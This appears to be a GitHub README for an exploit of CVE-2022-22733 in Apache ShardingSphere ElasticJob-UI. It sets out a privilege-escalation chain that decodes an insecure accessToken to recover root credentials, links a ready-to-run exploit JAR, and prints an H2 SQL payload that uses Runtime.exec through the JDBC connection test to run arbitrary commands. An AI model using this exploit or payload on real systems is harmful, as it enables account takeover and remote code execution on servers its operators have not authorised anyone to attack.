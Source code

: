 # CVE-2022-22733


CVE-2022-22733 is a vulnerabilit that affects Apache ShardingSphere ElasticJob-UI 3.0.0 and below versions, The vulnerability lead to Privilege Escalation. But, with abusing of the escalated privileges a `JDBC` Attack it can preformed & achieve RCE. You can read the vulnerability analysis from [Here](https://www.vicarius.io/vsociety/blog/cve-2022-22733-apache-shardingsphere-elasticjob-ui-privilege-escalation) & The exploit writing blog step by step from [Here](https://www.vicarius.io/vsociety/blog/unique-exploit-cve-2022-22733-privilege-escalation-and-rce).

![elasticjob](https://user-images.githubusercontent.com/62406753/234271377-56e490ad-b70c-4c33-9423-e18656489b18.png)

The Exploit Works as the following:
- Login with the low-privileged account.
- Obtain the unsecure generated `accessToken`.
- Decode the unsecure generated `accessToken`.
- Parse the decoded data from the `accessToken`.
- Retrive `root` account credentials from the parsed data.
- Login with the `root` account credentials and obtain a full privileges on the application.
- Send a Connection Test request with abusing of the``JDBC` Attack.

# Usage
You can download `JAR` file from [here](https://github.com/Zeyad-Azima/CVE-2022-22733/releases/tag/CVE-2022-22733) & Source code [here](https://github.com/Zeyad-Azima/CVE-2022-22733/blob/main/src/Main.java).

- Execute `jar`:
```
java -jar CVE-2022-22733.jar
```
- SQL script code:
```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "123";}';CALL EXEC ('your_command_here')
```
# Demo
![idea64_5Ru1DeWcKE](https://user-images.githubusercontent.com/62406753/234266805-e387ffbe-b347-4176-9891-77168604c8f1.gif)
